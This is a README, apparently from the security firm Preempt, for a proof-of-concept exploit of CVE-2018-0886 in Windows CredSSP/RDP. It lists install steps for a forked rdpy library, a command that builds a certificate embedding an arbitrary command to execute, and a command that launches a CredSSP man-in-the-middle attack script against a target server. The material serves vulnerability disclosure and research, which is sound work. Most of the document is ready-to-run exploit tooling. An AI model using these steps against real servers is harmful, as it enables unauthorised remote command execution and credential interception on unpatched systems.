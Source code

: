 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/citronneur/rdpy), allowing also credssp relay. 
The code can be found here: 

Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```
* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow this instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help). 
